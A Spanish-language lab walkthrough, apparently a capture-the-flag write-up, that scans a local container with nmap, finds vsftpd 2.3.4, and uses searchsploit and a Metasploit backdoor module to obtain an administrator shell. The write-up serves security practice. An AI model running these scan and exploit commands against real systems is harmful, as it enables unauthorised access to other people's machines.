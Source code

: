 Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 172.17.0.2 -oN escaneo
```
![alt text](image.png)

Una vez tenemos el resultado del escaneo de puertos abiertos y de servicios asociados, vamos a ver si tiene algun exploit en esta version.
```
searchsploit vsftpd 2.3.4
```
![alt text](image-1.png)

Podemos ver que el segundo exploit está añadido al framework de metasploit. Entonces los vamos a usar para explotarlo y generarnos una shell.
```
msfconsole -q
```
![alt text](image-2.png)
```
search vsftpd 2.3.4
```
![alt text](image-3.png)
```
use 0
```
![alt text](image-4.png)
```
set rhosts 172.17.0.2
```
![alt text](image-5.png)
```
exploit
```
![alt text](image-6.png)

Hemos podido ver que hemos accedido directamente como administrador.